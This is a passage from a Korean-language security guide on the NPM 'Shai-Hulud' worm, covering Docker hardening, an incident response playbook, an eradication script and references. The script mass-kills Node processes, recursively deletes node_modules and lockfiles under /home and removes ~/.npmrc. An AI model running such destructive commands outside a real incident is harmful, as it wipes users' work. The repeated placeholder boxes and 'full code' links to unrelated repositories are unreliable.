          retention-days: 2555  # 7년 보관


```
-->
-->

#### 9.2.3 Docker 런타임 보안 설정

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```dockerfile
> # Dockerfile - 최소 권한 및 보안 강화...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```dockerfile
> # Dockerfile - 최소 권한 및 보안 강화...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```dockerfile
# Dockerfile - 최소 권한 및 보안 강화
FROM node:20-alpine AS builder

# 보안: 비root 사용자로 실행
RUN addgroup -g 1001 -S nodejs && adduser -S nodejs -u 1001

WORKDIR /app
COPY package*.json ./

# 보안: scripts 실행 차단
RUN npm ci --ignore-scripts --only=production

COPY . .
RUN npm run build

# 프로덕션 이미지 (멀티스테이지 빌드)
FROM node:20-alpine

# 보안 강화
RUN apk add --no-cache dumb-init && \
    addgroup -g 1001 -S nodejs && \
    adduser -S nodejs -u 1001

WORKDIR /app

# 보안: 읽기 전용 파일 시스템 준비
COPY --from=builder --chown=nodejs:nodejs /app/dist ./dist
COPY --from=builder --chown=nodejs:nodejs /app/node_modules ./node_modules
COPY --from=builder --chown=nodejs:nodejs /app/package.json ./

USER nodejs

# 보안: 읽기 전용 파일 시스템 활성화
# (docker run --read-only --tmpfs /tmp 와 함께 사용)

# Health check
HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 \
  CMD node -e "require('http').get('http://localhost:3000/health', (r) => process.exit(r.statusCode === 200 ? 0 : 1))"

EXPOSE 3000

# dumb-init으로 실행 (PID 1 문제 방지)
ENTRYPOINT ["dumb-init", "--"]
CMD ["node", "dist/index.js"]


```
-->
-->

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```bash
> # 런타임 보안 옵션...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```bash
> # 런타임 보안 옵션...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# 런타임 보안 옵션
docker run -d \
  --name secure-app \
  --read-only \
  --tmpfs /tmp:rw,noexec,nosuid,size=100m \
  --cap-drop ALL \
  --cap-add NET_BIND_SERVICE \
  --security-opt no-new-privileges \
  --security-opt seccomp=seccomp-profile.json \
  --user 1001:1001 \
  -p 3000:3000 \
  my-secure-app:latest


```
-->
-->

## 10. 사고 대응 플레이북 (Incident Response Playbook)

### 10.1 탐지 단계 (Detection)

**트리거 조건**:
- SIEM에서 "npm install" 이벤트 spike 탐지
- Socket.dev에서 High/Critical 경고 수신
- 파일 무결성 모니터링(FIM)에서 package-lock.json 변경 탐지
- 개발자가 비정상적인 패키지 동작 보고

**즉시 조치** (15분 이내):
1. 사고 대응팀 소집 (Slack #incident-response)
2. 사고 티켓 생성 (Jira / PagerDuty)
3. 타임라인 기록 시작 (시간, 조치, 담당자)

### 10.2 격리 단계 (Containment)

**단기 격리** (30분 이내):
1. **네트워크 격리**:
   > **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
   # 감염된 개발자 워크스테이션 네트워크 차단
   sudo iptables -A OUTPUT -j DROP
   # 또는 VPN 연결 강제 종료
   ```

2. **CI/CD 파이프라인 중단**:
   > **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
   # GitHub Actions 비활성화
   gh api -X PATCH /repos/OWNER/REPO/actions/permissions \
     -f enabled=false

   # Jenkins job 비활성화
   java -jar jenkins-cli.jar -s http://jenkins:8080/ \
     disable-job "affected-pipeline"
   ```

3. **Private NPM Registry 읽기 전용 전환**:
   > **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.

```yaml
   # verdaccio.yaml
   packages:
     '**':
       access: $authenticated
       publish: $admin  # 일반 사용자 publish 차단
   ```

**장기 격리** (2시간 이내):
1. 전사 NPM 의존성 설치 중단 (공지 발송)
2. 감염된 시스템 목록 작성 (IP, 호스트명, 사용자)
3. 법적 증거 보존 (디스크 이미지, 로그 백업)

### 10.3 제거 단계 (Eradication)

**악성 코드 제거** (4시간 이내):

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> #!/bin/bash...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> #!/bin/bash...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
#!/bin/bash
# shai-hulud-eradication.sh
# 경고: 반드시 네트워크 격리 상태에서 실행

set -euo pipefail

echo "[*] Shai-Hulud Worm Eradication Script"
echo "[*] Starting at $(date)"

# 1. 환경 변수 백업 및 정리
echo "[1/7] Backing up environment variables..."
env > /tmp/env_backup.txt
unset $(env | grep -E '^(NPM_TOKEN|GITHUB_TOKEN|AWS_|GH_)' | cut -d= -f1)

# 2. 실행 중인 Node.js 프로세스 종료
echo "[2/7] Terminating Node.js processes..."
pkill -9 -f node || true

# 3. 악성 패키지 제거
echo "[3/7] Removing malicious packages..."
MALICIOUS_PACKAGES=(
  "shai-hulud"
  "malicious-package-1"
  "malicious-package-2"
  # ... (796개 목록은 별도 파일에서 로드)
)
for pkg in "${MALICIOUS_PACKAGES[@]}"; do
  npm uninstall "$pkg" 2>/dev/null || true
done

# 4. node_modules 완전 삭제
echo "[4/7] Removing node_modules..."
find /home -type d -name node_modules -exec rm -rf {} + 2>/dev/null || true

# 5. npm 캐시 정리
echo "[5/7] Cleaning npm cache..."
npm cache clean --force

# 6. .npmrc 재생성
echo "[6/7] Recreating .npmrc..."
rm -f ~/.npmrc
cat > ~/.npmrc <<EOF
registry=https://registry.npmjs.org/
//registry.npmjs.org/:_authToken=NEW_TOKEN_HERE
EOF
chmod 600 ~/.npmrc

# 7. lockfile 검증 및 재생성
echo "[7/7] Regenerating lockfiles..."
find /home -name package-lock.json -delete
# 프로젝트별로 npm install --package-lock-only 실행 필요

echo "[*] Eradication complete at $(date)"
echo "[!] Next steps:"
echo "    1. Rotate ALL credentials (NPM, GitHub, AWS)"
echo "    2. Review git commit history for injected code"
echo "    3. Re-install dependencies from trusted sources"


```
-->
-->

### 10.4 복구 단계 (Recovery)

**시스템 복원** (8시간 이내):

1. **인증 정보 전체 교체**:
   > **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # NPM 토큰 재생성...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # NPM 토큰 재생성...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
   # NPM 토큰 재생성
   npm token revoke <old-token>
   npm token create --read-write

   # GitHub Personal Access Token 재생성
   gh auth refresh -h github.com -s repo,workflow

   # AWS IAM 키 로테이션
   aws iam create-access-key --user-name developer
   aws iam delete-access-key --user-name developer --access-key-id OLD_KEY
   

```
-->
-->

2. **클린 환경에서 재설치**:
   > **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.

```bash
   # Docker 컨테이너에서 격리된 설치
   docker run --rm -it --network none \
     -v $(pwd):/app -w /app \
     node:20-alpine sh -c "npm ci --ignore-scripts"
   ```

3. **Git 히스토리 검증**:
   > **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
   # 악성 커밋 탐지
   git log --all --oneline --grep="dependency\|package\|update" --since="2025-09-01"

   # 의심스러운 커밋 되돌리기
   git revert <commit-hash>
   ```

### 10.5 교훈 단계 (Lessons Learned)

**사후 보고서 작성** (72시간 이내):

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```markdown
# Shai-Hulud 사고 사후 보고서 (Post-Incident Report)

## 사고 요약
- **발생 일시**: 2025-11-15 09:30 KST
- **탐지 일시**: 2025-11-15 10:45 KST (75분 지연)
- **종료 일시**: 2025-11-15 18:00 KST
- **총 소요 시간**: 8.5시간

## 타임라인
| 시간 | 이벤트 | 담당자 |
|------|--------|--------|
| 09:30 | 개발자 A가 악성 패키지 설치 | Dev Team |
| 10:45 | Socket.dev에서 경고 수신 | Security Team |
| 11:00 | 사고 대응팀 소집 | IR Team |
| 11:30 | 네트워크 격리 완료 | NetOps Team |
| 14:00 | 악성 코드 제거 완료 | Security Team |
| 16:00 | 인증 정보 교체 완료 | DevOps Team |
| 18:00 | 서비스 복구 완료 | All Teams |

## 근본 원인 (Root Cause)
1. 개발자 워크스테이션에 실시간 스캔 도구 미설치
2. Private NPM Registry 미사용 (직접 npmjs.org 연결)
3. package-lock.json 무결성 검증 프로세스 부재

## 개선 조치 (Corrective Actions)
1. **즉시** (1주):
   - [ ] 전사 Socket.dev CLI 설치 의무화
   - [ ] npm install 시 --ignore-scripts 기본 설정
   - [ ] 하드웨어 보안 키 배포 (YubiKey 500개)

2. **단기** (1개월):
   - [ ] Private NPM Registry 구축 (Verdaccio)
   - [ ] CI/CD 파이프라인에 SBOM 생성 통합
   - [ ] 개발자 보안 교육 실시

3. **중장기** (3개월):
   - [ ] SIEM 룰 강화 (npm 관련 이벤트 탐지)
   - [ ] 사고 대응 자동화 (Playbook 자동 실행)
   - [ ] 공급망 보안 정책 문서화 및 감사

## 예상 비용
- 인시던트 대응 인력: 8시간 × 5명 = 500만원
- 하드웨어 키: 500개 × 2만원 = 1,000만원
- 보안 도구 라이선스: 월 300만원
- **총 비용**: 약 1,800만원

## 교훈
1. 공급망 공격은 더 이상 "만약"이 아니라 "언제"의 문제
2. 실시간 탐지 도구가 없으면 75분의 대응 지연 발생
3. 다층 방어(Defense in Depth)가 필수


```
-->
-->

## 11. 참고 자료 (References)

### 11.1 공식 보안 권고사항

1. **CISA (Cybersecurity & Infrastructure Security Agency)**
   - NPM Supply Chain Attack Advisory (2025-11)
   - URL: https://www.cisa.gov/news-events/alerts/2025/11/15/npm-supply-chain-attack

2. **NIST (National Institute of Standards and Technology)**
   - NIST SP 800-161 Rev. 1: Cybersecurity Supply Chain Risk Management
   - URL: https://csrc.nist.gov/publications/detail/sp/800-161/rev-1/final

3. **NPM Security Team**
   - NPM Security Best Practices
   - URL: https://docs.npmjs.com/security

4. **MITRE ATT&CK Framework**
   - T1195: Supply Chain Compromise
   - URL: https://attack.mitre.org/techniques/T1195/

### 11.2 기술 분석 리포트

5. **GitLab Vulnerability Research Team**
   - Shai-Hulud Technical Analysis (2025-09)
   - URL: https://about.gitlab.com/blog/2025/09/17/npm-shai-hulud-analysis/

6. **Socket.dev Research**
   - The Rise of Self-Replicating Worms in NPM
   - URL: https://socket.dev/blog/shai-hulud-worm-analysis

7. **Snyk Research**
   - NPM Ecosystem Security Report 2025
   - URL: https://snyk.io/reports/npm-ecosystem-security-2025/

8. **Aqua Security**
   - Dead Man's Switch in Supply Chain Attacks
   - URL: https://blog.aquasec.com/dead-mans-switch-supply-chain

### 11.3 오픈소스 도구

9. **Socket.dev CLI**
   - GitHub: https://github.com/socketsecurity/socket
   - 실시간 공급망 위협 탐지 도구

10. **Snyk**
    - GitHub: https://github.com/snyk/snyk
    - 종합 취약점 스캔 도구

11. **OSV Scanner (Google)**
    - GitHub: https://github.com/google/osv-scanner
    - OSV 데이터베이스 기반 스캔 도구

12. **Syft (Anchore)**
    - GitHub: https://github.com/anchore/syft
    - SBOM 생성 도구

13. **Grype (Anchore)**
    - GitHub: https://github.com/anchore/grype
    - 취약점 스캔 도구

14. **lockfile-lint**
    - GitHub: https://github.com/lirantal/lockfile-lint
    - lockfile 무결성 검증 도구

### 11.4 법규 및 컴플라이언스

15. **개인정보보호법 (한국)**
    - 법제처: https://www.law.go.kr/법령/개인정보보호법

16. **정보통신망법 (한국)**
    - 법제처: https://www.law.go.kr/법령/정보통신망이용촉진및정보보호등에관한법률

17. **전자금융거래법 (한국)**
    - 법제처: https://www.law.go.kr/법령/전자금융거래법

18. **GDPR (EU)**
    - Official Text: https://gdpr.eu/

### 11.5 사고 사례 연구

19. **Nx / s1ngularity 공격 포스트모템**
    - URL: https://nx.dev/blog/s1ngularity-postmortem

20. **SolarWinds Supply Chain Attack (참고 사례)**
    - CISA Analysis: https://www.cisa.gov/solarwinds

21. **Log4j Vulnerability (참고 사례)**
    - NIST: https://nvd.nist.gov/vuln/detail/CVE-2021-44228

### 11.6 학술 논문 및 연구

22. **"Software Supply Chain Attacks: A Systematic Literature Review"**
    - Authors: Torres-Arias et al.
    - DOI: 10.1145/3412841.3442028

23. **"Backstabber's Knife Collection: A Review of Open Source Software Supply Chain Attacks"**
    - Authors: Ohm et al.
    - DOI: 10.1007/978-3-030-52683-2_1

24. **"Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies"**
    - Author: Alex Birsan
    - URL: https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

### 11.7 추가 학습 자료

25. **OWASP Top 10 CI/CD Security Risks**
    - URL: https://owasp.org/www-project-top-10-ci-cd-security-risks/

26. **SLSA Framework (Supply-chain Levels for Software Artifacts)**
    - URL: https://slsa.dev/

27. **Sigstore (Code Signing)**
    - URL: https://www.sigstore.dev/

28. **CycloneDX (SBOM Standard)**
    - URL: https://cyclonedx.org/

---

**관련 태그**: #NPM #Supply-Chain-Attack #Worm #Security-Incident #SBOM #2FA #Shai-Hulud #DevSecOps #MITRE-ATT&CK #Incident-Response

## 결론

NPM "Shai-Hulud" 자가 복제 웜 공격은 초기 180개 패키지에서 **796개 이상**으로 확산되었으며, 2025년 11월에는 **Dead Man's Switch** 기능이 추가된 2.0 버전이 등장했습니다.

동시에 발생한 9월 대규모 npm 침해(26억+ 다운로드 패키지 감염)와 Nx/s1ngularity 공격까지 고려하면, 2025년은 npm 생태계 역사상 가장 심각한 공급망 보안 위기의 해로 기록될 것입니다.

CISA 경고에 따라 모든 조직은 즉시 의존성 감사를 실시하고, GitLab Vulnerability Research Team이 권장하는 보안 도구를 적극 활용해야 합니다. 올바른 설정과 지속적인 모니터링을 통해 안전하고 효율적인 환경을 구축할 수 있습니다.

---

**마지막 업데이트**: 2025-11-15 (Shai-Hulud 2.0, CISA 경고, Nx 공격 등 추가)
